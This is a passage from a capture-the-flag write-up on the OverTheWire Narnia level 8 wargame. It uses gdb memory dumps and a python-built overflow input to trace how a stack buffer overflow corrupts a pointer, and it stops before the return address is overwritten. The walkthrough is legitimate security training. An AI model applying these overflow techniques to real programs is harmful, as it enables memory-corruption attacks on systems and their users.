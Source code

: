 ```
```

Looking at the output, We see that part of the buffer was dropped, and replaced with non-ascii characters.
As stated previously, `[1]` points to `blah` and `blah` is being copied into `bok`:
```
for(i=0; blah[i] != '\0'; i++)
		bok[i]=blah[i];
```
The first B in our buffer overflowed into `blah`. Since we just butchered the memory address of `blah`, the code execution now gets a bit wonky.

When `i` was at 20, `bok[20]` pointed to the last byte of `blah`'s memory address while `blah[20]` pointed to the first B in our buffer.

```
bok[20]:
(gdb) x/8bx 0xffffd6c8 + 20
0xffffd6dc:	0x42	0xd8	0xff	0xff	0x02	0x00	0x00	0x00
```
```
blah[20]:
x/8bx 0xffffd8df + 20
0xffffd8f3:	0x42	0x42	0x42	0x42	0x00	0x53	0x48	0x45
```
B, or 0x42, gets copied into the last byte of `blah`, and `i` gets incremented to 21.
`bok[21]` now points to the second to last byte of `blah`'s memory address but `blah` now points to 0xffffd842, so `blah[21]` points to:
```
(gdb) x/2bx 0xffffd842 + 21
0xffffd857:	0x00	0x09
```
A null byte, which terminates the for-loop. That explains why the rest of our buffer doesn't get copied into `blok`.

Coincidentally, the next byte is 0x09, so if we change our B buffer to C, `blah` should be overwritten to 0xffff0943:
```
(gdb) run $(python -c 'print "A" * 20 + "CBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /narnia/narnia8 $(python -c 'print "A" * 20 + "CBBB"')

Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20xw $esp
0xffffd6b0:	0x08048580	0xffffd6c8	0x00000014	0xf7e55fe3
0xffffd6c0:	0x00000000	0x002c307d	0x41414141	0x41414141
0xffffd6d0:	0x41414141	0x41414141	0x41414141	0xffff0943[1]
0xffffd6e0:	0x00000002	0xffffd7a4	0xffffd708	0x080484cd
0xffffd6f0:	0xffffd8df[2]	0xf7ffd000	0x080484fb	0xf7fcc000
```
And it does.

So we need to find a way to overcome this road-block in order to overwrite the return address.


[overthewire]: https://www.overthewire.org